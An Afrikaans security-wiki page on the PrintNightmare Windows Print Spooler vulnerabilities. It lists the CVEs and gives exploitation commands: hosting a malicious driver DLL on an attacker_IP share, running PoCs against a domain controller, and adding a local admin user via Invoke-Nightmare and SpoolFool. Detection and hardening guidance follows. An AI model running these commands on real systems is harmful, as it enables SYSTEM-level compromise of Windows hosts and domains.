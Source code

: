 # PrintNightmare (Windows Print Spooler RCE/LPE)

{{#include ../../banners/hacktricks-training.md}}

> PrintNightmare is die kollektiewe naam wat gegee word aan 'n familie van kwesbaarhede in die Windows **Print Spooler** diens wat **arbitraire kode-uitvoering as SYSTEM** toelaat en, wanneer die spooler oor RPC bereikbaar is, **afgeleë kode-uitvoering (RCE) op domeinbeheerders en lêerbedieners**. Die mees wydgebruikte CVE's is **CVE-2021-1675** (aanvanklik geklassifiseer as LPE) en **CVE-2021-34527** (volledige RCE). Volgende probleme soos **CVE-2021-34481 (“Point & Print”)** en **CVE-2022-21999 (“SpoolFool”)** bewys dat die aanvaloppervlak steeds ver van gesluit is.

---

## 1. Kwesbare komponente & CVE's

| Jaar | CVE | Kort naam | Primitive | Aantekeninge |
|------|-----|-----------|-----------|--------------|
|2021|CVE-2021-1675|“PrintNightmare #1”|LPE|Gepatch in Junie 2021 CU maar omseil deur CVE-2021-34527|
|2021|CVE-2021-34527|“PrintNightmare”|RCE/LPE|AddPrinterDriverEx laat geverifieerde gebruikers toe om 'n stuurprogram DLL van 'n afgeleë deel te laai|
|2021|CVE-2021-34481|“Point & Print”|LPE|Ongesigneerde stuurprograminstallasie deur nie-admin gebruikers|
|2022|CVE-2022-21999|“SpoolFool”|LPE|Arbitraire gidscreatie → DLL plant – werk na 2021 patches|

Almal van hulle misbruik een van die **MS-RPRN / MS-PAR RPC metodes** (`RpcAddPrinterDriver`, `RpcAddPrinterDriverEx`, `RpcAsyncAddPrinterDriver`) of vertrou verhoudings binne **Point & Print**.

## 2. Exploitasiemetodes

### 2.1 Afgeleë Domeinbeheerder kompromie (CVE-2021-34527)

'n Geverifieerde maar **nie-bevoorregte** domein gebruiker kan arbitraire DLL's as **NT AUTHORITY\SYSTEM** op 'n afgeleë spooler (dikwels die DC) uitvoer deur:
```powershell
# 1. Host malicious driver DLL on a share the victim can reach
impacket-smbserver share ./evil_driver/ -smb2support

# 2. Use a PoC to call RpcAddPrinterDriverEx
python3 CVE-2021-1675.py victim_DC.domain.local  'DOMAIN/user:Password!' \
-f \
'\\attacker_IP\share\evil.dll'
```
Populêre PoCs sluit **CVE-2021-1675.py** (Python/Impacket), **SharpPrintNightmare.exe** (C#) en Benjamin Delpy se `misc::printnightmare / lsa::addsid` modules in **mimikatz** in.

### 2.2 Plaaslike voorregte-eskalasie (enige ondersteunde Windows, 2021-2024)

Die dieselfde API kan **lokaal** aangeroep word om 'n stuurprogram van `C:\Windows\System32\spool\drivers\x64\3\` te laai en SYSTEM voorregte te verkry:
```powershell
Import-Module .\Invoke-Nightmare.ps1
Invoke-Nightmare -NewUser hacker -NewPassword P@ssw0rd!
```
### 2.3 SpoolFool (CVE-2022-21999) – omseil 2021 regstellings

Microsoft se 2021 regstellings het afstands bestuurder laai geblokkeer, maar **het nie gids toestemming versterk nie**. SpoolFool misbruik die `SpoolDirectory` parameter om 'n arbitrêre gids te skep onder `C:\Windows\System32\spool\drivers\`, laat 'n payload DLL val, en dwing die spooler om dit te laai:
```powershell
# Binary version (local exploit)
SpoolFool.exe -dll add_user.dll

# PowerShell wrapper
Import-Module .\SpoolFool.ps1 ; Invoke-SpoolFool -dll add_user.dll
```
> Die exploit werk op ten volle gepatchte Windows 7 → Windows 11 en Server 2012R2 → 2022 voor Februarie 2022 opdaterings

---

## 3. Opsporing & jag

* **Gebeurtenislogs** – stel die *Microsoft-Windows-PrintService/Operational* en *Admin* kanale in en kyk vir **Gebeurtenis ID 808** “Die drukspooler het gefaal om 'n plug-in module te laai” of vir **RpcAddPrinterDriverEx** boodskappe.
* **Sysmon** – `Gebeurtenis ID 7` (Beeld gelaai) of `11/23` (Lêer skryf/verwyder) binne `C:\Windows\System32\spool\drivers\*` wanneer die ouer proses **spoolsv.exe** is.
* **Proses afkoms** – waarskuwings wanneer **spoolsv.exe** `cmd.exe`, `rundll32.exe`, PowerShell of enige ongetekende binêre genereer.

## 4. Versagting & verharding

1. **Patches!** – Pas die nuutste kumulatiewe opdatering toe op elke Windows-gasheer wat die Print Spooler diens geïnstalleer het.
2. **Deaktiveer die spooler waar dit nie benodig word nie**, veral op Domein Beheerders:
```powershell
Stop-Service Spooler -Force
Set-Service Spooler -StartupType Disabled
```
3. **Blokkeer afstandskonneksies** terwyl plaaslike drukwerk steeds toegelaat word – Groep Beleid: `Rekenaar Konfigurasie → Administratiewe Sjablone → Drukkers → Laat Print Spooler toe om kliëntverbindinge te aanvaar = Deaktiveer`.
4. **Beperk Punt & Druk** sodat slegs administrateurs bestuurders kan byvoeg deur die registerwaarde in te stel:
```cmd
reg add "HKLM\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint" \
/v RestrictDriverInstallationToAdministrators /t REG_DWORD /d 1 /f
```
Gedetailleerde leiding in Microsoft KB5005652

---

## 5. Verwante navorsing / gereedskap

* [mimikatz `printnightmare`](https://github.com/gentilkiwi/mimikatz/tree/master/modules) modules
* SharpPrintNightmare (C#) / Invoke-Nightmare (PowerShell)
* SpoolFool exploit & skrywe
* 0patch mikropatches vir SpoolFool en ander spooler foute

---

**Meer lees (buitelandse):** Kyk na die 2024 stap-vir-stap blogpos – [Understanding PrintNightmare Vulnerability](https://www.hackingarticles.in/understanding-printnightmare-vulnerability/)

## Verwysings

* Microsoft – *KB5005652: Bestuur nuwe Punt & Druk standaard bestuurder installasie gedrag*
<https://support.microsoft.com/en-us/topic/kb5005652-manage-new-point-and-print-default-driver-installation-behavior-cve-2021-34481-873642bf-2634-49c5-a23b-6d8e9a302872>
* Oliver Lyak – *SpoolFool: CVE-2022-21999*
<https://github.com/ly4k/SpoolFool>
{{#include ../../banners/hacktricks-training.md}}
